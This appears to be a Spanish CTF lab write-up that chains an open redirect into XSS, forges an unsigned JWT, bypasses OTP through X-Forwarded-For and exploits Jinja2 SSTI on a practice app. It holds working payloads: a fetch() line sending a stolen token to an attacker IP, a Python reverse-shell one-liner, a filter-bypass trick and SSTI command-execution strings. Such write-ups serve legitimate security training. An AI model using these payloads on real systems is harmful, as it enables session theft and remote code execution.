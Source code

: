 # Soluciones

## Etapa 1: Acceder con cualquier usuario

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es acceder a la aplicación con un usuario cualquiera.

Para empezar, accedemos a http://whp-socially/ y nos encontramos con la siguiente pantalla:

![](img/MainPage.png)

Vemos que en el menú lateral izquierdo tenemos la opción de "Login", pero no es importante dado que no tenemos ninguna cuenta y no podemos registrarnos.

Si revisamos las publicaciones de la página, vemos que hay una publicación de un usuario llamado "admin" con un enlace que nos lleva a la página de Google.

![](img/InterestingHyperlink.png)

Este enlace es relevante, porque no redirecciona directamente a Google, sino que usa un parámetro llamado "next" para redireccionar a la página que nosotros queramos.

Esto recuerda a una vulnerabilidad llamada "Open Redirect", que consiste en que un atacante puede redireccionar a un usuario a una página que no es la que el usuario espera, por ejemplo, a una página de phishing.

Para validar si esto es una vulnerabilidad, podemos manipular el parámetro "next", quedando el enlace de la siguiente manera:

http://whp-socially/?next=http://example.com

![](img/example.com.png)

Y al acceder a este enlace, nos redirecciona a la página example.com, lo que confirma la vulnerabilidad.

Open Redirect es una vulnerabilidad muy común, normalmente no es muy peligrosa y en muchos casos se reporta con criticidad baja o incluso informativa. Sin embargo, hay casos en las que se puede explotar para realizar ataques más complejos, como por ejemplo, un Cross-Site Scripting (XSS). Un XSS permite que un atacante ejecute código JavaScript en el navegador del usuario. Vamos a verificar si esto es posible.

Para esto, tenemos que identificar cómo realiza la aplicación la redirección. Podemos usar Burp Suite para interceptar la petición y ver qué está pasando.

![](img/RequestOpenRedirect.png)

La aplicación redirecciona utilizando código JavaScript, más específicamente, con la propiedad "href" del objeto "window.location".

Cuando se redirecciona mediante JavaScript, y no mediante una cabecera HTTP "Location", se puede escalar el Open Redirect a un XSS. Esto resulta muy útil para Bug Bounty, porque los XSS se reportan con mayor criticidad que los Open Redirect, brindando una mayor recompensa.

Intentemos explotar esto. Primero, probemos si "javascript:" nos funciona, para ver si podemos ejecutar código JavaScript.

![](img/javascriptBlocked.png)

Al parecer, "javascript:" está bloqueado. No obstante, mediante el uso del carácter %09 (tabulador codificado en URL), podemos evadir los filtros.

Para esto, agregamos dicho carácter entre la primera y la última letra de la palabra "javascript", quedando de la siguiente manera:

![](img/BypassFilter.png)

Este carácter genera un espacio en blanco, que es ignorado por el navegador. Esta simple técnica, pero no tan conocida, me sirvió para evadir el WAF comercial de Imperva en un escenario de Bug Bounty.

Ahora, podemos ejecutar código JavaScript. Vamos a intentar llamar a la función "alert()" para ver si funciona.

![](img/alertBlocked.png)

Al parecer, la función "alert()" también está bloqueada. Sin embargo, podemos utilizar la función "print()", que genera una ventana de impresión.

![](img/printAllowed.png)

¡Perfecto, funciona! Accedamos desde el navegador para confirmar que se ejecuta el código JavaScript. El enlace debe quedar de la siguiente manera:

http://whp-socially/?next=j%09avascript:print()

![](img/printExecuted.png)

El código JavaScript se ejecuta correctamente. No obstante, no es muy útil, ya que solo genera una ventana de impresión. Vamos a intentar algo más interesante, como por ejemplo, robar la sesión del usuario.

Pero antes, necesitamos identificar cómo almacena la sesión / autenticación la aplicación. Normalmente, se almacena en una cookie, pero no siempre es así. Para determinar esto, revisamos los archivos JavaScript que se están ejecutando en la página principal. En este caso, tenemos un archivo llamado "main.js".

![](img/localStoragetoken.png)

En este archivo, podemos ver que se llama a la función "localStorage.getItem('token')", que es la que se encarga de obtener el token del usuario desde el almacenamiento local del navegador.

En caso de que haya dudas, la diferencia principal entre las cookies y el almacenamiento local es que las cookies se almacenan en el navegador y el servidor, mientras que el almacenamiento local solo se almacena en el navegador.

Vamos a intentar robar el token del usuario. Necesitamos un servidor de atacante para recibir el token de la víctima. Para esto, podemos usar un servidor HTTP de Python, con el siguiente comando:

    python3 -m http.server 80

![](img/pythonhttpserver.png)

Ahora, vamos a ver cuál es la dirección IP de nuestra máquina de atacante. Para esto, podemos usar el comando "ifconfig". La dirección IP que nos interesa es la de la interfaz puente de Docker, con el nombre que empieza con "br-".

![](img/ifconfig.png)

Con esta información, podemos crear un payload que utilice la función "fetch()" para enviar el token al servidor de atacante mediante una petición GET. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(%27http://<IP_ATACANTE>/%27%2blocalStorage.getItem(%27token%27))
```

**Importante:** Hay que reemplazar \<IP_ATACANTE\> por la dirección IP de la máquina de atacante. Además, hay que codificar el carácter "+" en URL, para que no se interprete como un espacio en blanco.

Si probamos el enlace, veremos que la petición no llega al servidor de atacante. Revisemos la consola del navegador para ver qué está pasando.

![](img/blockedFetch.png)

Al parecer, hay un error de sintaxis relacionado con el carácter "&". Para depurar esto, podemos enviar la petición al Repeater de Burp Suite y ver dónde está el problema.

![](img/blockedFetchRepeater.png)

El problema está en que el carácter "%27" (comilla simple codificada en URL) está siendo codificado mediante HTML Entities. Esto se debe a que la aplicación está haciendo un escape de los caracteres especiales.

Para solucionar esto, podemos ver si el resto de comillas están siendo escapadas también. Con JavaScript, podemos representar strings mediante comillas simples, dobles o backticks.

![](img/checkingQuoteChars.png)

En este caso, los backticks no están siendo escapados. Por lo tanto, podemos utilizarlos para solucionar el problema. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(`http://<IP_ATACANTE>/`%2blocalStorage.getItem(`token`))
```

Si probamos el enlace, vemos que la petición llega al servidor de atacante.

![](img/requestReceived.png)

Nos llega el valor "null", esto se debe a que no estamos autenticados, pero esto nos sirve para comprobar que la petición llega correctamente. Ahora, vamos a enviar la petición a la víctima, utilizando el servidor de explotación disponible en http://whp-exploitserver/.

![](img/exploitServer.png)

Pulsamos el botón "Deliver URL to victim" para enviar el enlace a la víctima. El servidor de explotación simula la navegación de la víctima y vemos que un JSON Web Token (JWT) llega correctamente al servidor del atacante.

![](img/tokenReceived.png)

Ahora, podemos utilizar el JWT para autenticarnos en la aplicación de http://whp-socially/. Abrimos la consola del navegador y ejecutamos el siguiente código JavaScript:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<FIRMA>')

**Importante:** Para que la consola nos deje pegar el código anterior, hay que escribir "allow pasting" justo antes de ejecutar el código. Además, hay que reemplazar \<FIRMA\> por la firma del JWT que hemos obtenido.

![](img/localStoragesetItem.png)

Si recargamos la página, comprobamos que nos hemos autenticado correctamente con la cuenta de "ares".

![](img/loggedinasares.png)

</details>

## Etapa 2: Acceder como admin

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es acceder como administrador.

Tras iniciar sesión, podemos ver que tenemos una funcionalidad para publicar posts, pero se encuentra deshabilitada.

![](img/disabledposting.png)

Por lo tanto, vamos a revisar el JWT en busca de vulnerabilidades.

JWT se compone de tres partes: header, payload y firma. El header contiene información sobre el algoritmo de cifrado utilizado. El payload contiene la información que queremos guardar en el JWT. La firma se utiliza para verificar que el JWT no ha sido modificado, y se calcula mediante el header, el payload y una clave secreta.

Gracias a la página [JWT.io](https://jwt.io/), podemos ver el contenido del JWT más fácilmente. Introducimos el JWT obtenido anteriormente y obtenemos la siguiente información:

![](img/jwtdecoded.png)

Tenemos un campo "id" con el valor "5", que seguramente corresponda al identificador del usuario. Para modificarlo, necesitamos conocer la clave secreta que se utiliza para firmar el JWT, a menos que podamos encontrar una vulnerabilidad.

Si revisamos el HTTP History de Burp Suite al añadir un JWT en el Local Storage del navegador y refrescamos la página, se realiza una petición contra el endpoint "/session", que dado un JWT válido devuelve una cookie de sesión.

![](img/jwtreturnssession.png)

Vamos a probar a eliminar la firma del JWT y ver qué ocurre. Si se elimina la firma y la aplicación no la comprueba, el JWT se considera válido. Si esto ocurre, la aplicación debe devolver una cookie de sesión.

![](img/signatureremoved.png)

Esta vulnerabilidad permite manipular el payload del JWT, por lo que podemos modificar el valor de la clave "id" para que sea "1" y acceder como el primer usuario de la aplicación, que normalmente es el administrador.

![](img/modifiedidjwt.png)

Cerramos sesión y especificamos el JWT modificado desde la consola del navegador de la siguiente manera:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6MX0.')

![](img/setadminjwt.png)

Si recargamos la página, comprobamos que hemos accedido como administrador.

![](img/loginasadmin.png)

</details>

## Etapa 3: Leer el archivo /flag

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es leer el archivo /flag, que contiene la flag final.

El panel de administración tiene la siguiente apariencia:

![](img/adminpanel.png)

Tenemos dos opciones: actualizar los datos del servidor SMTP y enviar un correo electrónico de prueba. El problema es que si intentamos usar cualquiera de las dos opciones, salta un segundo factor de autenticación, que nos pide un código OTP.

Ejemplo al intentar actualizar los datos del servidor SMTP:

![](img/verifyotp.png)

Existen casos en los que las aplicaciones confían en la cabecera "X-Forwarded-For". Esta cabecera fue creada para que los servidores web puedan saber la IP real de los usuarios que acceden a la aplicación a través de un proxy. En este caso, la aplicación confía en esta cabecera y no comprueba la IP real del usuario.

Si agregamos la cabecera "X-Forwarded-For" para que su valor sea la dirección IPv4 de loopback (127.0.0.1), la aplicación cree que el usuario está accediendo desde la misma máquina que el servidor, por lo que no se activa el segundo factor de autenticación.

La petición que se realiza al intentar actualizar los datos del servidor SMTP es la siguiente:

![](img/updatesmtporiginalrequest.png)

Al agregar la cabecera "X-Forwarded-For: 127.0.0.1", el servidor no comprueba el segundo factor de autenticación y autoriza la petición.

![](img/updatesmtpmodifiedrequest.png)

Podemos agregar una regla de "Match and Replace" en Burp Suite para que se agregue la cabecera "X-Forwarded-For" automáticamente en todas las peticiones, con la siguiente configuración:

* **Type:** Request header
* **Replace:** X-Forwarded-For: 127.0.0.1

![](img/addmatchreplacerule.png)

Vamos a modificar la dirección IP del servidor SMTP para que sea la del atacante.

![](img/smtpipmodified.png)

Con Python podemos crear un servidor SMTP que escuche en el puerto 25 y nos muestre los correos electrónicos que reciba. Para ello, ejecutamos el siguiente comando:

    sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25

![](img/pythonsmtpserver.png)

Ahora, si enviamos un correo electrónico de prueba a cualquier dirección, lo recibimos en el servidor SMTP.

![](img/receiveemail.png)

La petición que se realiza al enviar un correo electrónico de prueba es la siguiente:

![](img/sendemailrequest.png)

La clave "message" llama la atención porque su valor contiene la variable {{session['username']}}, que es sustituido por el nombre del usuario que envía el correo electrónico. Esto recuerda a una vulnerabilidad de Server-Side Template Injection (SSTI), que permite ejecutar código en el servidor, en este caso, código Python.

Para confirmar que se trata de una vulnerabilidad de SSTI, lo primero es identificar el motor de plantillas que utiliza la aplicación, dado que cada uno tiene su propia sintaxis. 

El motor de plantillas más utilizado en Flask es Jinja2. Para comprobar si la aplicación está utilizando este motor de plantillas, podemos probar a enviar un correo electrónico de prueba con el siguiente contenido:

    {{config}}

![](img/config.png)

Y comprobar si la respuesta contiene información sobre la configuración de la aplicación. 

![](img/configreceived.png)

Funciona, por lo que podemos probar a extraer el contenido del archivo /flag, mediante el siguiente payload extraído de [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread):

    {{cycler.__init__.__globals__.os.popen('cat /flag').read()}}

![](img/messagetoolong1.png)

Desgraciadamente, el valor de la clave "message" es demasiado largo, por lo que el payload no es ejecutado.

Necesitamos un payload más corto, pero primero necesitamos conocer cuánto espacio tenemos disponible para el payload. Vamos a ir agregando caracteres "X" en "message" hasta que la petición devuelva un error.

Al enviar 45 caracteres "X", la petición funciona correctamente.

![](img/45x.png)

Al enviar 46 caracteres "X", la petición devuelve un error.

![](img/46x.png)

Podemos concluir que tenemos 50 caracteres disponibles para el payload.

El artículo [Exploiting Jinja SSTI with limited payload size](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/) ofrece una solución para saltar la restricción de tamaño de payload.

La técnica propuesta consiste es actualizar "config", que es un diccionario que contiene la configuración de la aplicación. Añadimos un elemento al diccionario llamado "a" con el comando que le pasemos por el parámetro GET "a" (valga la redundancia). 

De esta forma, no necesitamos incluir el comando en el campo "message", sino que lo pasamos por el parámetro GET, evadiendo así la restricción de tamaño.

En este caso, el comando es una reverse shell de Python 3.

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP_ATACANTE>",<PUERTO_ATACANTE>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

**Importante:** Modificar "IP_ATACANTE" y "PUERTO_ATACANTE" por la dirección IP y el puerto del atacante respectivamente. Seleccionamos el texto y presionamos "Ctrl+U" en el Repeater de Burp Suite para que se codifique en formato URL.

Y el payload que vamos a utilizar es el siguiente:

    {{config.update(a=request.args.get('a'))}}

![](img/payload.png)

Nos ponemos a la escucha en el puerto especificado en el payload.

    nc -lvnp <PUERTO_ATACANTE>

![](img/nc.png)

Lanzamos os.popen(config.a) para que se ejecute el comando de la reverse shell, con el siguiente payload:

    {{lipsum.__globals__.os.popen(config.a)}}

Explicación del payload:
* **lipsum:** función que genera texto aleatorio, desde aquí podemos acceder a las variables globales.
* **\_\_globals\_\_:** diccionario que contiene las variables globales de las funciones, incluyendo "os".
* **os:** módulo que contiene funciones para interactuar con el sistema operativo.
* **popen:** función que ejecuta un comando en el sistema operativo.

![](img/revshell.png)

Y obtenemos una reverse shell.

![](img/shell.png)

Leemos el contenido del archivo /flag.

![](img/flagcontent.png)

</details>
